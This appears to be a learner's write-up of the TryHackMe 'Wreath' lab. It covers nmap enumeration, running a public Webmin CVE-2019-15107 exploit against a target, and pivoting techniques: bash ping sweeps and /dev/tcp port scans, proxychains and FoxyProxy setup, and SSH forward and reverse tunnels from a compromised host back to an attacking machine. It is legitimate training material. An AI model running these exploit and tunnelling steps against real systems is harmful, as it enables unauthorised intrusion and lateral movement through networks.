# Introduction                            

Wreath is designed as a learning resource for beginners with a primary focus on:

- Pivoting
- Working with the Empire C2 (**C**ommand and **C**ontrol) framework
- Simple Anti-Virus evasion techniques

The following topics will also be covered, albeit more briefly: 

- Code Analysis (Python and PHP)
- Locating and modifying public exploits
- Simple webapp enumeration and exploitation
- Git Repository Analysis
- Simple Windows Post-Exploitation techniques
- CLI Firewall Administration (CentOS and Windows)
- Cross-Compilation techniques
- Coding wrapper programs
- Simple exfiltration techniques
- Formatting a pentest report

# Webserver   Enumeration                            

**Nmap**

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-18 14:33 IST
Nmap scan report for 10.200.90.200
Host is up (0.17s latency).
Not shown: 65027 filtered tcp ports (no-response), 503 filtered tcp ports (host-unreach)
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 9c:1b:d4:b4:05:4d:88:99:ce:09:1f:c1:15:6a:d4:7e (RSA)
|   256 93:55:b4:d9:8b:70:ae:8e:95:0d:c2:b6:d2:03:89:a4 (ECDSA)
|_  256 f0:61:5a:55:34:9b:b7:b8:3a:46:ca:7d:9f:dc:fa:12 (ED25519)
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-title: Did not follow redirect to https://thomaswreath.thm
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
443/tcp   open   ssl/http   Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_ssl-date: TLS randomness does not represent time
|_http-title: Thomas Wreath | Developer
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=thomaswreath.thm/organizationName=Thomas Wreath Development/stateOrProvinceName=East Riding Yorkshire/countryName=GB
| Not valid before: 2022-07-18T08:58:35
|_Not valid after:  2023-07-18T08:58:35
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
9090/tcp  closed zeus-admin
10000/tcp open   http       MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

​                                                            

You will have noticed that the site failed to resolve. Looks like Thomas forgot to set up the DNS!

Add it to your hosts file manually. This can be accomplished by editing the `/etc/hosts` file on Linux/MacOS, or `C:\Windows\System32\drivers\etc\hosts` on Windows, to include the IP address, followed by a tab, then the domain name. **Note:** this *must* be done as root/Administrator.

It should look something like this when done, although the *IP address and domain name will be different*:  `10.10.10.10 example.thm`


# Webserver   Exploitation                            

In the previous task we found a vulnerable service[[1\]](https://sensorstechforum.com/cve-2019-15107-webmin/)[[2\]](https://www.webmin.com/exploit.html) running on the target which will give us the ability to execute commands on the target.

The next step would usually be to find an exploit for this vulnerability.  There are often exploits available online for known vulnerabilities (and we will cover searching for these in an upcoming task!), however, in  this instance, an exploit is provided [here](https://github.com/MuirlandOracle/CVE-2019-15107).

------

Start by cloning the repository. This can be done with the following command:

```
git clone https://github.com/MuirlandOracle/CVE-2019-15107
```

This creates a local copy of the exploit on our attacking machine. Navigate  into the folder then install the required Python libraries:

```
cd CVE-2019-15107 && pip3 install -r requirements.txt
```

If this doesn't work, you may need to install pip before downloading the libraries. This can be done with:
`sudo apt install python3-pip`

The script should already be executable, but if not, add the executable bit (`chmod +x ./CVE-2019-15107.py`).

Never run an unknown script from the internet! Read through the code and see  if you can get an idea of what it's doing. (Don't worry if you aren't  familiar with Python -- in this case the exploit was coded by the author of this content and is being run in a lab environment, so you can infer that it isn't malicious. It is, however, good practice to read through  scripts before running them).

Once you're satisfied that the script will do what it says it will, run the exploit against the target!

```
./CVE-2019-15107.py TARGET_IP
```





# Pivoting   

**What is Pivoting?**

Pivoting is the art of using access obtained over one machine to  exploit another machine deeper in the network. It is one of the most  essential aspects of network penetration testing, and is one of the  three main teaching points for this room.

Put simply, by using one of the techniques described in the following tasks (or others!), it  becomes possible for an attacker to gain initial access to a remote  network, and use it to access other machines in the network that would  not otherwise be accessible:



In this diagram, there are four machines on the target network: one public facing server, with three machines which are not exposed to the  internet. By accessing the public server, we can then pivot to attack  the remaining three targets.

***Note:** This is an example diagram and is not representative of the Wreath Network.*

This section will contain a lot of theory for pivoting from both Linux and Windows compromised targets, which we will then put into practice  against the next machine in the network. Remember though: you have a  sandbox environment available to you with the compromised machine in the Wreath network. After the enumeration tasks coming up, you'll also know about the next machine in the network. Feel free to use these boxes to  play around with the tools as you go through the tasks, but be aware  that some techniques may be stopped by the firewalls involved (which we  will look at mitigating later in the network).

## Pivoting   High-level Overview

The methods we use to pivot tend to vary between the different target operating systems. Frameworks like Metasploit can make the process  easier, however, for the time being, we'll be looking at more manual  techniques for pivoting.

There are two main methods encompassed in this area of pentesting:

- **Tunnelling/Proxying:** Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network. This could potentially  also be *tunnelled* inside another protocol (e.g. SSH tunnelling), which can be useful for evading a basic **I**ntrusion **D**etection **S**ystem (IDS) or firewall
- **Port Forwarding:** Creating a connection between a local port and a single port on a target, via a compromised host

A proxy is good if we want to redirect lots of different kinds of traffic into our target network -- for example, with an nmap scan, or to access multiple ports on multiple different machines.

Port Forwarding  tends to be faster and more reliable, but only allows us to access a  single port (or a small range) on a target device. 

Which style of pivoting is more suitable will depend entirely on the layout of the  network, so we'll have to start with further enumeration before we  decide how to proceed. It would be sensible at this point to also start  to draw up a layout of the network as you see it -- although in the case of this practice network, the layout is given in the box at the top of  the screen.

As a general rule, if you have multiple possible entry-points, try to use a Linux/Unix target where possible, as these tend to be easier to pivot from. An outward facing Linux webserver is absolutely ideal.

The remaining tasks in this section will cover the following topics:

- Enumerating a network using native and statically compiled tools
- Proxychains / FoxyProxy
- SSH port forwarding and tunnelling (primarily Unix)
- plink.exe (Windows)
- socat (Windows and Unix)
- chisel (Windows and Unix)
- sshuttle (currently Unix only)

This is far from an exhaustive list of the tools available for pivoting, so further research is encouraged.



# Pivoting Enumeration                            

As always, enumeration is the key to success. Information is power -- the more we know about our target, the more options we have available  to us. As such, our first step when attempting to pivot through a  network is to get an idea of what's around us. 

There are five possible ways to enumerate a network through a compromised host:

1. Using material found on the machine. The hosts file or ARP cache, for example
2. Using pre-installed tools
3. Using statically compiled tools
4. Using scripting techniques 
5. Using local tools through a proxy

These are written in the order of preference. Using local tools through a  proxy is incredibly slow, so should only be used as a last resort.  Ideally we want to take advantage of pre-installed tools on the system (Linux systems sometimes have Nmap installed by default, for example). This is an example of Living off the Land (LotL) -- a good way to minimise  risk. Failing that, it's very easy to transfer a static binary, or put  together a simple ping-sweep tool in Bash (which we'll cover below). Before anything else though, it's sensible to check to see if there are any pieces of useful information stored on the target. `arp -a` can be used to Windows or Linux to check the ARP cache of the machine -- this will show you any IP  addresses of hosts that the target has interacted with recently.  Equally, static mappings may be found in `/etc/hosts` on Linux, or `C:\Windows\System32\drivers\etc\hosts` on Windows. ` /etc/resolv.conf` on Linux may also identify any local DNS servers, which may be misconfigured to  allow something like a DNS zone transfer attack (which is outwith the  scope of this content, but worth looking into). On Windows the easiest  way to check the DNS servers for an interface is with `ipconfig /all`. Linux has an equivalent command as an alternative to reading the resolv.conf file: `nmcli dev show`.

If there are no useful tools already installed on the system, and the  rudimentary scripts are not working, then it's possible to get *static* copies of many tools. These are versions of the tool that have been  compiled in such a way as to not require any dependencies from the box.  In other words, they could theoretically work on *any* target, assuming the correct OS and architecture. For example: statically compiled copies of Nmap for  different operating systems (along with various other tools) can be  found in various places on the internet. A good (if dated) resource for  these can be found [here](https://github.com/andrew-d/static-binaries). A more up-to-date (at the time of writing) version of Nmap for Linux specifically can be found [here](https://github.com/ernw/static-toolbox/releases/download/1.04/nmap-7.80SVN-x86_64-a36a34aa6-portable.zip).  Be aware that many repositories of static tools are very outdated.  Tools from these repositories will likely still do the job; however, you may find that they require different syntax, or don't work in quite the way that you've come to expect.

***Note:** The difference between a "static" binary and a "dynamic" binary is in the compilation. Most programs use a variety of external  libraries (*`.so` *files on Linux, or* `.dll` *files on Windows) -- these are referred to as "dynamic" programs.  Static programs are compiled with these libraries built into the  finished executable file. When we're trying to use the binary on a  target system we will nearly always need a statically compiled copy of  the program, as the system may not have the dependencies installed  meaning that a dynamic binary would be unable to run.*

Finally, the dreaded scanning through a proxy. This should be an absolute last  resort, as scanning through something like proxychains is *very* slow, and often limited (you cannot scan UDP ports through a TCP proxy, for example). The one exception to this rule is when using the Nmap Scripting Engine (NSE), as the scripts library  does not come with the statically compiled version of the tool. As such, you can use a static copy of Nmap to sweep the network and find hosts  with open ports, then use your local copy of Nmap through a proxy *specifically against the found ports*.

------

Before putting this all into practice let's talk about living off the land  shell techniques. Ideally a tool like Nmap will already be installed on  the target; however, this is not always the case (indeed, you'll find  that Nmap is **not** installed on the currently compromised server of the Wreath network). If this happens, it's worth looking into whether  you can use an installed shell to perform a sweep of the network. For  example, the following Bash one-liner would perform a full ping sweep of the 192.168.1.x network:

```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

This could be easily modified to search other network ranges -- including the Wreath network. 

The above command generates a full list of numbers from 1 to 255 and loops  through it. For each number, it sends one ICMP ping packet to192.168.1.x as a backgrounded job (meaning that each ping runs in parallel for  speed), where i is the current number. Each response is searched for  "bytes from" to see if the ping was successful. Only successful  responses are shown.

The equivalent of this command in Powershell  is unbearably slow, so it's better to find an alternative option where  possible. It's relatively straight forward to write a simple network  scanner in a language like C# (or a statically compiled scanner written  in C/C++/Rust/etc), which can be compiled and used on the target. This,  however, is outwith the scope of the Wreath network (although very  simple beta examples can be found [here](https://github.com/MuirlandOracle/C-Sharp-Port-Scan) for C#, or [here](https://github.com/MuirlandOracle/CPP-Port-Scanner) for C++).

It's worth noting as well that you may encounter hosts which have firewalls  blocking ICMP pings (Windows boxes frequently do this, for example).  This is likely to be less of a problem when pivoting, however, as these  firewalls (by default) often only apply to external traffic, meaning  that anything sent through a compromised host on the network should be  safe. It's worth keeping in mind, however.

If you suspect that a host is active but is blocking ICMP ping requests, you could also check some common ports using a tool like netcat.


Port scanning in bash can be done (ideally) entirely natively:

```
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

Bear in mind that this will take a *very* long time, however!

There are many other ways to perform enumeration using only the tools  available on a system, so please experiment further and see what you can come up with!



##  Proxychains & Foxyproxy

In this task we'll be looking at two "proxy" tools: Proxychains and  FoxyProxy. These both allow us to connect through one of the proxies  we'll learn about in the upcoming tasks. When creating a proxy we open  up a port on our own attacking machine which is linked to the  compromised server, giving us access to the target network. 

Think of this as being something like a  tunnel created between a port on our attacking box that comes out inside  the target network -- like a  secret tunnel from a fantasy story, hidden beneath the floorboards of  the local bar and exiting in the palace treasure chamber. 

Proxychains and FoxyProxy can be used to direct our traffic through this port and into our target network.

------

**Proxychains**

Proxychains is a tool we have already briefly mentioned in previous tasks. It's a  very useful tool -- although not without its drawbacks. Proxychains can  often slow down a connection: performing an nmap scan through it is  especially hellish. Ideally you should try to use static tools where  possible, and route traffic through proxychains only when required.

That said, let's take a look at the tool itself.

Proxychains is a command line tool which is activated by prepending the command `proxychains` to other commands. For example, to proxy netcat through a proxy, you could use the command:
`proxychains nc 172.16.0.10 23`

Notice that a proxy port was not specified in the above command. This is  because proxychains reads its options from a config file. The master  config file is located at `/etc/proxychains.conf`. This is  where proxychains will look by default; however, it's actually the last  location where proxychains will look. The locations (in order) are:

1. The current directory (i.e. `./proxychains.conf`)
2. `~/.proxychains/proxychains.conf`
3. `/etc/proxychains.conf`

This makes it extremely easy to configure proxychains for a specific  assignment, without altering the master file. Simply execute: `cp /etc/proxychains.conf .`, then make any changes to the config file in a copy stored in your  current directory. If you're likely to move directories a lot then you  could instead place it in a `.proxychains` directory under  your home directory, achieving the same results. If you happen to lose  or destroy the original master copy of the proxychains config, a  replacement can be downloaded from [here](https://raw.githubusercontent.com/haad/proxychains/master/src/proxychains.conf).

Speaking of the `proxychains.conf` file, there is only one section of particular use to us at this moment  of time: right at the bottom of the file are the servers used by the  proxy. You can set more than one server here to chain proxies together,  however, for the time being we will stick to one proxy:

 ![Screenshot of the default proxychains configuration showing the [Proxylist] section](assets/443c865e3ff3.png)

Specifically, we are interested in the "ProxyList" section:
`[ProxyList]# add proxy here ...# meanwhile# defaults set to "tor"socks4 127.0.0.1 9050`

It is here that we can choose which port(s) to forward the connection  through. By default there is one proxy set to localhost port 9050 --  this is the default port for a Tor entrypoint, should you choose to run  one on your attacking machine. That said, it is not hugely useful to us. This should be changed to whichever (arbitrary) port is being used for  the proxies we'll be setting up in the following tasks. 

There is one other line in the Proxychains configuration that is worth paying attention to, specifically related to the Proxy DNS settings:


If performing an Nmap scan through proxychains, this option can cause the scan to hang and ultimately crash. Comment out the `proxy_dns` line using a hashtag (`#`) at the start of the line before performing a scan through the proxy! 


Other things to note when scanning through proxychains:

- You can only use TCP scans -- so no UDP or SYN scans. ICMP Echo packets (Ping requests) will also not work through the proxy, so use the `-Pn` switch to prevent Nmap from trying it.
- It will be *extremely* slow. Try to only use Nmap through a proxy when using the NSE (i.e. use a static binary to see where the open ports/hosts are before proxying a local copy of nmap to use the scripts library).

**FoxyProxy**

Proxychains is an acceptable option when working with CLI tools, but if working in a web browser to access a webapp through a proxy, there is a better  option available, namely: FoxyProxy!

People frequently use this  tool to manage their BurpSuite/ZAP proxy quickly and easily, but it can  also be used alongside the tools we'll be looking at in subsequent tasks in order to access web apps on an internal network. FoxyProxy is a  browser extension which is available for [Firefox](https://addons.mozilla.org/en-GB/firefox/addon/foxyproxy-basic/) and [Chrome](https://chrome.google.com/webstore/detail/foxyproxy-basic/dookpfaalaaappcdneeahomimbllocnb). There are two versions of FoxyProxy available: Basic and Standard.  Basic works perfectly for our purposes, but feel free to experiment with standard if you wish. 

After installing the extension in your browser of choice, click on it in your toolbar:


Click on the "Options" button. This will take you to a page where you can  configure your saved proxies. Click "Add" on the left hand side of the  screen:


Fill in the IP and Port on the right hand side of the page that appears,  then give it a name. Set the proxy type to the kind of proxy you will be using. SOCKS4 is usually a good bet, although Chisel (which we will  cover in a later task) requires SOCKS5. An example config is given here:

Press Save, then click on the icon in the task bar again to bring up the  proxy menu. You can switch between any of your saved proxies by clicking on them:


Once activated, all of your browser traffic will be redirected through the  chosen port (so make sure the proxy is active!). Be aware that if the  target network doesn't have internet access (like all TryHackMe boxes)  then you will not be able to access the outside internet when the proxy  is activated. Even in a real engagement, routing your general internet  searches through a client's network is unwise anyway, so turning the  proxy off (or using the routing features in FoxyProxy standard) for  everything other than interaction with the target network is advised.

With the proxy activated, you can simply navigate to the target domain or IP in your browser and the proxy will take care of the rest!



## SSH Tunnelling / Port Forwarding

The first tool we'll be looking at is none other than the  bog-standard SSH client with an OpenSSH server. Using these simple  tools, it's possible to create both forward and reverse connections to  make SSH "tunnels", allowing us to forward ports, and/or create proxies.

------

**Forward Connections**

Creating a forward (or "local") SSH tunnel can be done from our attacking box  when we have SSH access to the target. As such, this technique is much  more commonly used against Unix hosts. Linux servers, in particular, commonly have SSH active and open. That said,  Microsoft (relatively) recently brought out their own implementation of  the OpenSSH server, native to Windows, so this technique may begin to  get more popular in this regard if the feature were to gain more  traction.

There are two ways to create a forward SSH tunnel using the SSH client -- port forwarding, and creating a proxy.

- Port forwarding is accomplished with the `-L` switch, which creates a link to a **Local port**. For example, if we had SSH access to 172.16.0.5 and there's a  webserver running on 172.16.0.10, we could use this command to create a  link to the server on 172.16.0.10:
  `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`
  We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 *on our own* *attacking machine.* For example, by entering `localhost:8000` into a web browser. Using this technique we have effectively created a  tunnel between port 80 on the target server, and port 8000 on our own  box. Note that it's good practice to use a high port, out of the way,  for the local connection. This means that the low ports are still open  for their correct use (e.g. if we wanted to start our own webserver to  serve an exploit to a target), and also means that we do not need to use `sudo` to create the connection. The `-fN` combined switch does two things: `-f` backgrounds the shell immediately so that we have our own terminal back. `-N` tells SSH that it doesn't need to execute any commands -- only set up the connection.

  

- Proxies are made using the `-D` switch, for example: `-D 1337`. This will open up port 1337 on your attacking box as a proxy to send  data through into the protected network. This is useful when combined  with a tool such as proxychains. An example of this command would be:
  `ssh -D 1337 user@172.16.0.5 -fN`
  This again uses the `-fN` switches to background the shell. The choice of port 1337 is completely arbitrary -- all that matters is that the port is available and  correctly set up in your proxychains (or equivalent) configuration file. Having this proxy set up would allow us to route all of our traffic  through into the target network.


------

**Reverse Connections**

Reverse connections are very possible with the SSH client (and indeed may be  preferable if you have a shell on the compromised server, but not SSH  access). They are, however, riskier as you inherently must access your  attacking machine *from* the target -- be it by using credentials,  or preferably a key based system. Before we can make a reverse  connection safely, there are a few steps we need to take:

1. First, generate a new set of SSH keys and store them somewhere safe (`ssh-keygen`):
   

   This will create two new files: a private key, and a public key.

   

2. Copy the contents of the public key (the file ending with `.pub`), then edit the `~/.ssh/authorized_keys` file on your own attacking machine. You may need to create the `~/.ssh` directory and `authorized_keys` file first.

3. On a new line, type the following line, then paste in the public key:
   `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty`
   This makes sure that the key can only be used for port forwarding,  disallowing the ability to gain a shell on your attacking machine.

The final entry in the `authorized_keys` file should look something like this:



Next. check if the SSH server on your attacking machine is running:
`sudo systemctl status ssh`

If the service is running then you should get a response that looks like this (with "active" shown in the message):


If the status command indicates that the server is not running then you can start the ssh service with:
`sudo systemctl start ssh`

The only thing left is to do the unthinkable: transfer the private key to  the target box. This is usually an absolute no-no, which is why we  generated a throwaway set of SSH keys to be discarded as soon as the  engagement is over.

With the key transferred, we can then connect back with a reverse port forward using the following command:
`ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN`

To put that into the context of our fictitious IPs: 172.16.0.10 and  172.16.0.5, if we have a shell on 172.16.0.5 and want to give our  attacking box (172.16.0.20) access to the webserver on 172.16.0.10, we  could use this command on the 172.16.0.5 machine:
`ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN`

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward  connection we made before!

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients,  but this command can be used to create a reverse proxy in clients which  do support it:
`ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`

This, again, will open up a proxy allowing us to redirect all of our traffic  through localhost port 1337, into the target network.

***Note:** Modern Windows comes with an inbuilt SSH client available by default.  This allows us to make use of this technique in Windows systems, even if there is not an SSH server running on the Windows system we're  connecting back from. In many ways this makes the next task covering  plink.exe redundant; however, it is still very relevant for older  systems.*

------

To close any of these connections, type `ps aux | grep ssh` into the terminal of the machine that created the connection:



Find the process ID (PID) of the connection. In the above image this is 105238.

Finally, type `sudo kill PID` to close the connection:



